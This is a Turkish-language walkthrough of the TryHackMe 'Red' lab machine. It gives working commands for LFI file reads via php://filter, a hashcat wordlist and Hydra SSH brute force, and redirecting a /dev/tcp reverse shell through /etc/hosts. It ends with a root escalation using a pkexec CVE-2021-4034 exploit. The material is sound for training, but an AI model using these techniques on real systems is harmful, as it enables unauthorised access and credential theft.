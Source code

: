```yaml
---
title: 'TryHackMe | Red WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [lfi]
render_with_liquid: false
media_subpath: /images/tryhackme_red/
image:
  path: logo.webp
---
```


## Özet
Web uygulamasında bulunan "Local File Inclusion" zafiyetinden yararlanarak "blue" kullanıcısının dizinideki gizli dosyayı keşfedeceğiz. Bu dosyadaki yönergeleri takip ederek bir parola listesi oluşturacak ve bu parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapacağız. Sonucunda elde ettiğimiz parolayı kullanarak SSH servisine bağlanacak ve yetki yükseltmek için bir takım kontroller yapacağız. Arka planda çalışan bağlantıyı fark ettikten sonra domain'in IP adresini değiştirecek ve bağlantıyı kendi makinemize yönlendireceğiz. Sonrada zafiyetli pkexec uygulamasını fark edecek ve internette bulduğumuz bir sömürü aracını kullanarak yetki yükselteceğiz.

## Makine hakkında ek bilgiler

- Makineye bağlanan kullanıcıların bağlantıları sonlandırılıp, parolaları değiştiriliyor.
- Odağımızı bozacak mesajlar ile karşılaşabiliriz.

## Keşif aşaması

### Nmap Taraması

```console
$ nmap -sV -sC -T4 10.10.35.115
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Bulgular

- Web uygulaması hazır web teması içeriyor.
- Tema sayfaları index.php dosyasına gönderilen "page" parametresi ile sayfaya dahil ediliyor.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Kullanılan hazır tema düzenlenmemiş gibi duruyor. "page" parametresinin aldığı değeri /etc/passwd ve türevleri olacak şekilde değiştirdiğimde her seferinde home.html sayfasına yönlendiriyor. Sistemde bulunan dosyaları görüntüleyebilmek için parametreye "php://filter/convert.base64-encode/resource=/etc/passwd" şeklinde bir değer girdiğimde ise base64 ile kodlanmış olarak dosya içeriğini okuyabiliyorum.

## Sömürü Aşaması

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d                                                                          
root:x:0:0:root:/root:/bin/bash
...
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

Sistemde root haricinde "red" ve "blue" olmak üzere iki kullanıcı var. "blue" kullanıcısının dizinindeki .bash_history isimli dosyayı kontrol ettiğimizde, aynı dizindeki .reminder dosyasında bulunan bir metni kullanarak hashcat ile belli kurallar dahilinde bir parola listesi oluşturduğunu görüyoruz.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history | base64 -d
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

".reminder" isimli dosyanın içeriği aşağıdaki şekildedir.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder | base64 -d
sup3r_p@s$w0rd!
```

Red kullanıcısının blue kullanıcısı için oluşturduğu parola listesini aynı komutu kullanarak oluşturalım.

```console
$ nano .reminder
$ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Daha sonra elde ettiğimiz parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapalım.

```console
$ hydra -l blue -P passlist.txt ssh://10.10.35.115
[DATA] attacking ssh://10.10.35.115:22/
[22][ssh] host: 10.10.35.115   login: blue   password: sup3r_p@s$w0sup3r_p@s$w0
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 04:28:00
```

Elimizdeki kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra bulunduğumuz dizinde ilk bayrağı görüyoruz.

```console
blue@red:~$ ls
flag1
blue@red:~$ cat flag1 
THM{***?}
```

Başta belirtiğim gibi ara ara bağlantı sonlandırılıyor ve parola değiştiriliyor. Aynı parola listesini kullanarak tekrar tekrar deneme yanılmsa saldırısı yapmanız gerekebilir.

## Yetki yükseltme

### Red

"ps aux" komutunu kullandığımda arka planda red kullanıcısının redrules.thm adresinin 9001 portuna bağlandığını gördüm.

```console
blue@red:/var/backups$ ps aux
...
red         2557  0.0  0.0   6972  2496 ?        S    08:31   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
red         2582  0.0  0.0   6972  2692 ?        S    08:32   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
root        2593  0.0  0.0      0     0 ?        I    08:32   0:00 [kworker/u30:1-events_unbound]
red         2628  0.0  0.0   6972  2696 ?        S    08:33   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

/etc/hosts dosyasına domain ile beraber makinemizin IP adresini girdikten bir süre sonra red kullanıcısının adına bir bağlantı alıyorum. Dosyayı temizlediği için bu işlemi bağlantı alana kadar bir kaç kez tekrar etmeniz gerekebilir.

![](2.webp){: width="1200" height="600" }

Bağlantı geldikten sonra kendi dizininden ikinci bayrağı alıyorum.

```console
red@red:~$ cat flag2 
THM{***}
```

### Root

/home/red/.git/ dizini içerisinde "pkexec" adında bir dosya bulunuyor. Bu dosyaya SUID izni verilmiş ve zafiyetli bir sürümü kullanılıyor.

```console
red@red:~/.git$ ls -la
drwxr-x--- 2 red  red   4096 Aug 14  2022 .
drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

Adını ve sürümünü internette arattıktan sonra [bu](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) sayfa ile karşılaştım. Verilen c kodlarını düzenleyip kayıt ettikten sonra derledim. Çalıştırdıktan sonra ise doğrudan root yetkisine sahip oluyor ve üçüncü bayrağı almak için /root dizine yöneliyorum.

```console
red@red:~/.git$ ls
CVE-2021-4034.py  pkexec
red@red:~/.git$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1001(red) groups=1001(red)
# cd /root
# ls
defense  flag3  snap
# cat flag3
THM{***}
```

